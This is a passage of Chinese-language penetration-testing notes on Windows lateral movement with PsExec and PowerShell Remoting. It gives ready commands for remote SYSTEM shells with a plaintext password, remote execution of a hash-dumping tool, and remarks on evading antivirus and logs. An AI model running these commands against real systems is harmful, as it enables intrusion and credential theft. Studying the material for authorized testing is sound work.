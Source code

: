 *常用命令*

```
###获取管理员用户权限的交互式 shell
psexec \\192.168.17.138 -u Administrator -p !@#123QWE cmd

###获取普通用户权限的交互式 shell，原因参见 LocalAccountTokenFilterPolicy,要想获取管理员权限 shell ，需要添加 -h 参数。
psexec \\192.168.17.138 -u test -p !@#123QWE cmd

###在远程系统上以 system 权限执行单条命令，有时回显只有一行，原因尚不清楚。
psexec \\192.168.17.138 -u Administrator -p !@#123QWE -s cmd /c "quser"

###在远程系统上执行 bat 脚本
psexec \\192.168.17.138 -u Administrator -p !@#123QWE c:\programdata\test.bat

###拷贝文件到远程机器并以交互方式运行，运行结束后会删除
psexec \\192.168.17.138 -c C:\Users\test\Desktop\GetHashes.exe
```

*其它参数*

```
–accepteula 第一次运行会弹框,输入这个参数便不会弹框
-s 以 “nt authority\system” 权限运行远程进程
-h 如果可以，以管理员权限运行远程进程
-d 不等待程序执行完就返回，请只对非交互式应用程序使用此选项
\\ip 可以替换成 @ip.txt (存放多个 ip 的文本)，可以批量执行命令
```

*工具说明*

- 需要远程系统开启 ADMIN$ 共享
- 建立 ipc 连接后可以不指定用户名和密码
- 不能仅拷贝文件不执行，只需要拷贝时可以建立 ipc 连接后c opy
- 在启动psExec建立连接之后，远程系统上会被安装一个服务：PSEXESVC。安装服务会留下日志，而且psexec退出时有可能服务删除失败，所以不推荐使用 psexec。

#### PsRemoting

PowerShell远程命令执行基于WinRM。WinRM指的是Windows远程管理服务，它会监听HTTP(5985)、HTTPS(5986)，不过此服务除了Windows Server 2012及R2默认启用外，其他默认都是禁用的。管理员为了方便对服务器的远程管理，也许将此端口开启，这种事就像内网弱口令一样，做渗透嘛，什么奇迹都有可能发生。

利用PowerShell渗透可以绕过杀软、绕过白名单防护设备，并且还可以得到返回的数据，简直是杀人越货神器。默认禁用PS。

```
#先开启执行策略
set-executionpolicy unrestricted
#在目标机器上开启ps远程功能
enable-psremoting
#开启远程连接
Enter-PSSession 192.168.200.20 -Credential  administrator
```

![img](http://b404.xyz/img/hack/%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/post/5f86bde0-3bdb-4c2e-995e-dc1e80ffbbd0.png)

## 定位
